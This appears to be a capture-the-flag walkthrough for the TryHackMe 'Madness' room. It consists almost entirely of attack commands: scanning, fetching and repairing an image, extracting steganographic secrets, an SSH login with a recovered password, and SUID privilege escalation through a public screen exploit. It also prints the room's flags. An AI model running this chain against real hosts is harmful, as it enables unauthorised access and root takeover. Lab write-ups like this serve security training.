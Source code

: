 # <div align="center">[Madness](https://tryhackme.com/r/room/madness)</div>
<div align="center">
  <img src="https://github.com/user-attachments/assets/044d66b7-a10d-45ac-9790-2df9df4478c2" height="200"></img>
</div>

## Let start with Scanning The IP ```nmap -sC -sV <IP>```

curl -s http://<IP>
wget http://<IP>/thm.jpg
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
curl -s http://<IP>/th1s_1s_h1dd3n/
curl -s http://<IP>/th1s_1s_h1dd3n/?secret=34
python secret.py
# y2RPJ4QaPF!B 
steghide info thm.jpg
steghide extract -sf thm.jpg
cat hidden.txt
# wbxre
echo -n "wbxre" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
# joker
wget https://<IP>/5iW7kC8.jpg
steghide info 5iW7kC8.jpg
steghide extract -sf 5iW7kC8.jpg
cat password.txt
sshpass -p "*axA&GF8dP" ssh joker@<IP>
cat user.txt 
```
```
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```

```
find / -user root -perm -u=s 2>/dev/null
ls -l /bin/screen*
# https://www.exploit-db.com/exploits/41154
sh 41154.sh 
cat /root/root.txt
THM{5ecd98aa66a6abb670184d7547c8124a}
```
